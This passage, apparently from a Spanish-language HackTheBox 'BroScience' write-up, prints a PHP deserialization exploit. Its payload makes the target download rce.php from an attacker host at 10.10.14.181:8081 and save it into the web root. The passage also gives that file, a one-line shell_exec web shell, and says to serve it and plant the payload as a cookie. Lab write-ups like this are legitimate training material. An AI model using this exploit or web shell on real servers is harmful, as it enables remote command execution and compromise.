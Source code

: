 
> serializeData.php

```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$imgPath = '/var/www/html/ch3chu.php'; // Donde queremos copiar el archivo
$tmp = 'http://10.10.14.181:8081/rce.php'; // Archivo que vamos a copiar

$exploit = new AvatarInterface();
$exploit->imgPath = $imgPath;
$exploit->tmp = $tmp;

$serialized_exploit = serialize($exploit);
$base64_exploit = base64_encode($serialized_exploit);

echo $base64_exploit;
?>
```

> rce.php

```php
<?php
    echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';
?>
```

Ahora solo tendriamos que levantar un servidor web compartiendo el archivo **rce.php** `python3 -m http.server 8081`, pegar el valor de la cookie y recargar.

![](/assets/images/HackTheBox/BroScience/getHTTP.png)
